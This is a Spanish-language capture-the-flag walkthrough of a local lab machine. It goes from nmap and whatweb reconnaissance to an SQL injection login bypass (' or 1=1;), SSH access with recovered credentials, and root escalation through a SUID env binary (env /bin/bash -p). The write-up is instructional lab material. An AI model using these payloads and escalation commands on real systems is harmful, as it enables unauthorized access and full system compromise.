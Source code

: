 # Etapa de Reconocimiento

## Nmap

### 1.er Escaneo

Usamos la herramienta *nmap* para descubrir servicios que puedan estar corriendo.
```ruby
nmap -p- --open --min-rate 5000 -sS -vvv 172.17.0.2 -n -Pn -oG allPorts
```

#### Parámetros del Escaneo

 `-p-` Escaneo de todo rango de puertos
 `--open` Filtrar solo por los puertos abiertos
 `--min-rate 5000` No permitir paquetes más lentos que 5000p/s
 `-sS` Usar el método TCP-SYN
 `-vvv` Ver la información en tiempo real
 `172.17.0.2` La IP
 `-n` No aplicar resolución DNS
 `-Pn` Deshabilitar el descubrimiento de Host
 `-oG allPorts` Exportar el escaneo en formato Grepeable

#### Output
Vemos que la máquina tiene abierto los puertos *22,80*, en los que concuerdan los servicios *SSH y HTTP*.
```ruby
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

## Reconocimiento WEB
### Whatweb
Usaremos el binario *whatweb $url* para ver información detallada de los servicios que puedan estar corriendo por detrás.
```ruby
whatweb http://172.17.0.2
```

Vemos que tiene una *PasswordField* y el título de la página es *Iniciar Sesión*, podemos intuir que tiene algún login.
```ruby
http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

### Vista de la WEB
Vemos que sí tiene un login.

![](../../images/Pasted%20image%2020240601180703.png)

# Explotación
## SQLi
Al tener un login, lo primero que se prueba es un *SQLi* para intentar evadir el login.

![](../../images/Pasted%20image%2020240601181435.png)

En el campo USER vamos a insertar `${texto}' or 1=1;`, lo que queremos es que el resultado de la petición sea *True*:

Nosotros ahora estamos enviando esta petición:
`SELECT * FROM Users WHERE User = ${texto}' or 1=1;` (Por ejemplo)

Vemos que va a comprobar si hay un usuario que sea existente con el nombre *${texto}*, seguramente no, pero luego va a comprobar si *1=1*, en este caso sí.

La primera es *falsa* y la segunda es *verdadera*:

*falso* **or** *verdadero* = *verdadero*

Nos permite la evasión del login.

## SSH
Vemos un *Usuario* y una *Contraseña*, por lo tanto, intentaremos entrar por *ssh* (Servicio que sabemos que está corriendo).

![](../../images/Pasted%20image%2020240601183040.png)

Usamos *sshpass* para no tener que introducir la contraseña luego.

![](../../images/Pasted%20image%2020240601183504.png)

**¡¡Tenemos acceso al sistema!!**

### Tratamiento de la TTY

Es muy recomendable hacer un tratamiento de la TTY para poder hacer *[ ^L ]*, *[ ^C ]*, etc.
```ruby
script /dev/null -c bash
```

```ruby
stty raw -echo; fg
```

```ruby
[^Z]
```

```ruby
reset xterm
```

```ruby
export SHELL=bash && export TERM=xterm
```

## Escalada de Privilegios

### Búsqueda de Vulnerabilidades

Vamos a probar a buscar ficheros con *SUID* y usuario propietario *root*.
```ruby
find / -perm -4000 -user root 2>/dev/null
```

```r
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/env
/usr/bin/gpasswd
```

De todos los binarios, el **env** es vulnerable si tiene el *SUID*.

Se puede ver fácilmente en: https://gtfobins.github.io/gtfobins/env/

### Root
En esta misma página nos indica como podemos escalar privilegios con este binario:
```r
env /bin/bash -p
```
![](../../images/Pasted%20image%2020240601185157.png)

**¡¡Ya tenemos privilegios ROOT!!**